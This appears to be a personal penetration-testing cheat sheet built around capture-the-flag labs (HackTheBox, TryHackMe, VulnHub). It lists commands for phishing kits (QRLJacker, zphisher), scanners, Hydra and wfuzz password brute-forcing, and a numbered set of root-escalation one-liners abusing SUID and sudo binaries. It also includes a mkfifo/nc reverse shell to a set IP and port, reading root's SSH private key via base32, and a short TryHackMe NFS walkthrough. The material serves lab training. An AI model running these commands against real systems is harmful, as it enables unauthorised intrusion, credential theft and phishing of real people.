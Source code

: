 # Notes

WhatsApp phishing cd QRLJacking/QRLJacker python3 QrlJacker.py

Scanning Vulnerabilitites cd routersploit\
python3 rsf.py

Phishing cd QRLJacking/QRLJacker/zphisher bash zphisher.sh

Nessus vulnerablity scanner sudo /bin/systemctl start nessusd.service https://192.168.29.38:8834/

OpenVas sudo docker ps -a\
sudo docker start f7b4f8e569b4\
https://127.0.0.1 admin:admin

Proxy Tor sudo service tor start proxychains firefox\
sudo service tor stop

Hetty sudo docker run -v $HOME/.hetty:/root/.hetty -p 8081:8081 dstotijn/hetty localhost:8080

Social EngineerinG Toolkit sudo setoolkit

Anonsurf sudo anonsurf start

Shodan

threader3000 Port Scanner

dirsearch Scanning directories in websites cd tools/dirsearch python3 dirsearch.py -u http://websitename.com -e all

wpscan test the security of their sites.

ps command used to see servers shut down port fuser -k 8888/tcp

Hydra for password cracking ssh hydra -l jan -P rockyou.txt ssh://10.10.66.123 jan is the username

Sending a file to ssh server scp limpeas.sh jan@10.10.66.123:/dev/shm

Htb sudo sysctl net.ipv6.conf.all.disable\_ipv6=0

nmap nmap -vv -sV -sC -p- -Pn -T4 --max-retries 0 nmap -sV -p- -Pn -T4 --max-retries 0

dirb http://dynstr.htb/nic/

Extracting from image

* steghide extract -sf forest.jpg
* binwalk img.jpg \[-e to extract the hidden files]
* exiftool img.jpg

tools turbodecoder cd dist java -jar turbodecoder.jar

Nikto ifconfig to find your ip address eth0 inet address ipcalc on ipaddress to find range network: gives iprange to scan Use nmap nmap -p 80 network/range -oG file\_to\_store\_in.txt cat file\_to\_store\_in.txt shows the result of nmap scan cat nullbyte.txt | awk '/Up$/{print $2}' | cat >> target.ip.txt //stores all the target ip addresses in target\_ip.txt nikto -h target\_ip.txt //runs nikto scan on ipaddresses gained through nmap nikto -h {ipadd} -Format msf+ //runs scripts agiainst the present vulnerabilities

searchsploit version

Killing a port sudo netstat -ntupl sudo kill {PID}

Checking file permissions getcap -r / 2>/dev/null

Gaining root access

1. Using python to gain root /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
2. /usr/bin/gdb /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
3. cpulimit suid abuse cpulimit -l 100 -f -- /bin/sh -p

4\)Using a .sh file that executes after a specific interval echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.248 4444 >/tmp/f" > filename.sh start a shell at 4444 ti listen for it nc -lvp 4444

1. (root) NOPASSWD: /usr/bin/find sudo find . -exec /bin/sh ; -quit

6\)using nmap nmap --interactive !sh

7\)using /usr/bin/base32 get the private key pf root using base32 "/root/.ssh/id\_rsa" | base32 --decode

8\)VulHub Solstice priv extraction

ps aux ls -l /var/tmp/sv echo "" > /var/tmp/sv/index.php curl localhost:57 ls -l /usr/bin/find find . -exec /bin/bash -p ; -quit

9\)MYsql sudo mysql -e '! /bin/sh' id

1. /usr/bin/bash -p

11\)/usr/bin/php7.2 /usr/bin/php7.2 -r "pcntl\_exec('/bin/bash', \['-p']);"

12\)sql3 sudo -u#-1 sqlite3 /dev/null ‘.shell /bin/bash’

find privilages for priv. ext find / -type f -perm -4000 2>/dev/null find /etc -type f -writable 2> /dev/null find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null

13\)Screen screen -x root/root

14\)wget ||HAHOWDY copy the etc/passwd file generate a new user and add it to copied file on local machine use wget on host machine to get the passwd file su the newly maed user

NFS

Now that we have discovered an NFS service is listening, let’s check what files are being shared. We can do this using the command showmount. In the terminal below, we run showmount -e 10.10.111.175. The -e or --exports show the NFS server’s export list.

Pentester Terminal pentester@TryHackMe$ showmount -e 10.10.111.175 Export list for 10.10.111.175: /share (everyone) /my-notes (noone) As we can see in the terminal output above, we have two shares, /share and /my-notes. After you have started the attached machine, use the AttackBox terminal to discover the shares on 10.10.111.175.

Let’s try to mount the shares we have discovered. We can create a directory on the AttackBox using mkdir tmp1, where tmp1 is the directory’s name. Then we can use this directory we created to mount the public NFS share using: mount 10.10.111.175:/my-notes tmp1.

Pentester Terminal pentester@TryHackMe$ mount 10.10.111.175:/my-notes tmp1 mount.nfs: access denied by server while mounting 10.10.111.175:/my-notes We can see that the mounting has failed. my-notes is not public and requires specific authentication mechanisms that we don’t have access to. Let’s try again with the other folder, share.

Pentester Terminal pentester@TryHackMe$ mount 10.10.111.175:/share tmp1 We didn’t get any error messages, so it was a success. Let’s go inside the share to see what’s inside it using cd tmp1, then ls.

Pentester Terminal pentester@TryHackMe$ ls 132-0.txt 2680-0.txt There are two text files. We can open the file using any text editor such as nano FILENAME or something quicker such as less FILENAME

Emumerating Run ifconfig and get the ip address Run ipcalc to get the ip range Run sudo netdiscover -r 192.168.1.0/24 to get list of devices present

Cron jobs cat /etc/crontab

History cat \~/.\*history | less

export TERM=xterm-color python -c 'import pty; pty.spawn("/bin/sh")' python3 -c 'import pty; pty.spawn("/bin/sh")' Ctrl+Z stty raw -echo; fg export SHELL=bash export TERM=xterm stty rows 50 cols 236

check for rows and colums stty -a

mysql -h 10.0.2.26 -u seeddms -p password on the next line

dirb http://10.0.2.27 /usr/share/wordlists/dirb/big.txt

wpscan --url 10.10.11.125 --enumerate p,u --plugins-detection aggressive wpscan --url http://10.11.1.251/wp/wp-login.php -P /home/kali/Desktop/rockyou.txt -U Admin

Enumeration for subdomains ffuf -u http://shibboleth.htb -w \~/Desktop/Ctf/Shells/Top100subdomains.txt -H "Host: FUZZ.shibboleth.htb" -mc 200

wfuzz -w /usr/share/wordlists/rockyou.txt -c -d "log=admin\&pwd=FUZZ" http://10.11.1.251/wp/wp-login.php wfuzz -w /usr/share/wordlists/rockyou.txt -c --hw 254 -d "log=admin\&pwd=FUZZ" http://10.11.1.251/wp/wp-login.php

Whatweb

Linpeas wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
